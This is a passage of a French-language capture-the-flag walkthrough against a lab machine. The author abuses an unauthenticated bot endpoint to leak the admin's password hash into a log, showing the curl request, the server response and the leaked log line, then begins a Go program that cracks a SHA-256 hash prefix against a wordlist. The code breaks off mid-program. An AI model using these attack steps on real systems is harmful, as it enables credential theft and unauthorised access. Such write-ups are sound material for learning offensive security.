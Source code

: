 ### A l'attaque!

Ici pas d'inclusion, car `curl` est utilisé. Pas de SSRF, car une URL de base est définie. Notre seule chance, c'est de dumper des informations dans le fichier `log`.

C'est là que le path `/profile` est utile : il dumpe même le hash de l'utilisateur.

On ne peut pas obtenir ce dump directement depuis `index.php` car il attend une authentification, mais `test.php` va se charger d'envoyer les identifiants à notre place.

Donc :

1. On tape le `index.php` via `/visit` qui n'a pas d'authentification

2. On met `uri` à `profile` qui va faire l'auth à notre place

3. `index.php` retourne les infos

4. `test.php` les écrit dans le log

5. On accède au log, on trouve un hash, c'est la méga bamboule

```console
$ curl -D- -XPOST http://192.168.56.103/visit -d "uri=profile"
HTTP/1.1 200 OK
Server: nginx
Content-Type: application/json
Content-Length: 38
Connection: keep-alive
X-Powered-By: PHP/7.3.22
Set-Cookie: PHPSESSID=49h2e8ups1uteop5hb47eh7bv2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"message":"Bot is visiting: profile"}
```

On voit cette ligne dans les logs :

```
[2025-05-20 12:39:50] Bot visited profile, response: {"id":1,"username":"admin","email":"admin@example.com","password":"6f06ee724b86fca512018ad692a62aedc
```

On ne dispose que de la moitié du hash à cause des données présentes avant.

Une recherche Google sur ce préfixe ne retourne rien d'intéressant. Voici un code Go qui prend un fichier dictionnaire, calcule le hash sha256 de chaque mot et vérifie le préfixe :

```go
package main

import (
	"bufio"
	"crypto/sha256"
	"encoding/hex"
	"fmt"
	"log"
	"os"
	"strings"
)

const hashPrefix = "6f06ee724b86fca512018ad692a62aedc"

func main() {
	if len(os.Args) != 2 {
		fmt.Fprintf(os.Stderr, "Usage: %s <wordlist_file>\n", os.Args[0])
		os.Exit(1)
	}

```